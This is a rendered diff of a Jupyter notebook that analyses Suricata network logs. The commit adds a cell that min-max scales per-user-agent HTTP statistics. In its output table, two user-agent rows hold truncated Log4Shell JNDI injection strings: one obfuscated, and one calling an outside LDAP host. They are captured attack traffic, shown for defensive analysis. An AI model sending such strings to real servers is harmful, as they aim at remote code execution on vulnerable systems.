

Before and after one commit to markuskont/suricata-analytics-1, a Jupyter notebook: jupyter/Notebooks/JupyterPlaybooksForSuricata.ipynb, the cells around one changed output, grey strips where cells are left out. Drawn from its saved outputs; the diff is of its cells as text; blank space fills up the shorter version.

```diff
--- a/jupyter/Notebooks/JupyterPlaybooksForSuricata.ipynb
+++ b/jupyter/Notebooks/JupyterPlaybooksForSuricata.ipynb
@@ -1342,3 +1338,28 @@ DF_AGG_UA_EXTENDED
+# %%
+from sklearn.preprocessing import MinMaxScaler
+# %%
+pd.DataFrame(
+    MinMaxScaler().fit_transform(DF_AGG_UA_EXTENDED.values),
+    columns=DF_AGG_UA_EXTENDED.columns,
+    index=DF_AGG_UA_EXTENDED.index,
+)
+# %% [output]
+|  | http.url | http.hostname | http.http_refer | flow.bytes_toserver | flow.bytes_toclient | ... |
+| http.http_user_agent |  |  |  |  |  | ... |
+| ${${::-j}${::-n}${::-d}${::-i}:${... | 0.0000 | 0.25 | 0.142857 | 0.000356 | 0.000343 | ... |
+| ${jndi:ldap://121.140.99.236:1389... | 0.0000 | 0.25 | 0.000000 | 0.000008 | 0.000075 | ... |
+| Embarcadero URI Client/1.0 | 0.0000 | 0.25 | 0.000000 | 0.000012 | 0.000044 | ... |
+| Go http package | 0.0000 | 0.25 | 0.285714 | 0.000155 | 0.000326 | ... |
+| Go-http-client/1.1 | 1.0000 | 0.75 | 0.000000 | 0.009992 | 0.032365 | ... |
+| ... | ... | ... | ... | ... | ... | ... |
+| python-requests/2.23.0 | 0.0000 | 0.25 | 0.000000 | 0.000027 | 0.000218 | ... |
+| python-requests/2.25.1 | 0.0250 | 0.50 | 0.000000 | 0.001366 | 0.003140 | ... |
+| python-requests/2.26.0 | 0.0375 | 1.00 | 0.000000 | 0.001896 | 0.004541 | ... |
+| python-requests/2.9.1 | 0.0000 | 0.25 | 0.000000 | 0.000044 | 0.000118 | ... |
+| quic-go-HTTP/3 | 0.0000 | 0.75 | 0.000000 | 0.000377 | 0.000796 | ... |
+93 rows × 7 columns
+# %% [markdown]
+### Something something alerts
 # %%
 DF_ALERT = DF.loc[DF.event_type == "alert"].dropna(how="all", axis=1)
 # %%
```
Also changed, not shown: parts of 3 cells of this notebook.
